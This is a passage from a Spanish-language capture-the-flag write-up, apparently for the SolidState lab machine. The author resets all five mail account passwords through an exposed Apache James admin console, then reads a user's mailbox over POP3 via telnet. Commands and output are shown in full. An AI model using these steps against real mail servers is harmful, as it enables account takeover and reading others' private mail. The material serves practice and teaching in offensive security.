 
Por lo que veo, podemos listar los usuarios existentes y cambiar sus contraseñas a la que queramos y así poder leer sus correos.

```bash
$ listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
$ setpassword james james
Password for james reset
$ setpassword thomas thomas
Password for thomas reset
$ setpassword john john
Password for john reset
$ setpassword mindy mindy
Password for mindy reset
$ setpassword mailadmin mailadmin
Password for mailadmin reset
```

Ahora, vamos a explorar los buzones de correo.

```bash
telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER john
+OK
PASS john
+OK Welcome john
LIST
+OK 1 743
1 743
.
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy`s access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James

.
```